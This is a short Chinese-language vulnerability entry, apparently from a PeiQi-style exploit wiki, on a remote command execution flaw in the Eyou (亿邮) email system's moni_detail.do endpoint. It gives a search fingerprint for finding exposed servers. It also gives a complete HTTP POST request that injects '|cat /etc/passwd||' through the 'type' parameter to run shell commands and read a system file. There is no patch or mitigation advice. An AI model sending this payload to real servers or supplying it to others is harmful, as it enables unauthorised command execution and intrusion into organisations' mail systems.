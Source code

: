 # 亿邮电子邮件系统 moni_detail.do 远程命令执行漏洞

## 漏洞描述

亿邮电子邮件系统 存在远程命令执行漏洞，攻击者可以执行任意命令

## 漏洞影响

<a-checkbox checked>亿邮电子邮件系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>body="亿邮电子邮件系统"</a-checkbox></br>

## 漏洞复现

登录页面如下



![img](/assets/PeiQi-Wiki/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313103732287.png)



漏洞请求包如下



```plain
POST /webadm/?q=moni_detail.do&action=gragh HTTP/1.1
Host: 
Content-Length: 39
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36

type='|cat /etc/passwd||'
```

![img](/assets/PeiQi-Wiki/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313103731648.png)




